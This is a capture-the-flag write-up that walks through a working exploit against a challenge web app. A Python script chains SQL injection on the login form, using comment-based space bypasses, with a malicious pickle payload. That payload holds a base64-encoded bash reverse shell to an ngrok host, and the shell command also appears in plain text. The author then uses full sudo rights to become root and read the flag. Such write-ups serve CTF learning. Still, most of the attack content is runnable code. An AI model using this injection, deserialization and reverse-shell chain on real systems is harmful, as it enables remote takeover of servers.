






Challenge:



To do:  add code analysis


I set up my ngrok listener and netcat on my machine.

  



I then added my base64 encoded bash payload into the script and triggered the payload.

  

Script to trigger the payload:

```python
import os
import requests
import pickle
import base64


#bash -i >& /dev/tcp/0.tcp.ngrok.io/10302 0>&1

#Serialize the pickle payload
serializedPickle = pickle.dumps("os.system, ('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5uZ3Jvay5pby8xMDMwMiAwPiYxCg== | base64 -d | bash',)")
#Convert to base64
picklepayload = base64.b64encode(serializedPickle)

#Decode the payload to stage for the SQL injection
payload = picklepayload.decode()

#Set up our base URL and headers
baseURL = 'http://challenge.ctf.games:32234'
url = baseURL + '/login'
header = {'Content-Type':'application/x-www-form-urlencoded'}

#Construct the base64 attack
data = '''username=jimshoes&password=\\';insert/**/into/**/activesessions/**/values(\\'revshell\\',\\'jim\\',\\'987654321\\');insert/**/into/**/files/**/values(\\'jim\\',\\''' + payload + '''\\',null); -- "; '''

#Send the request
requests.post(url, data=data, headers=header)

#Trigger the payload
url = baseURL + '/download/jim/revshell'
requests.get(url)
```

The challenge states to escalate privileges to find the flag, so I ran ```sudo -l``` to see what permissions I had.



The account has full sudo privileges, so I elevated to root and claimed the flag in the /root directory.




Flag: ```flag{ac53cd7aa8a2d1b2340a6eb4a356709e}```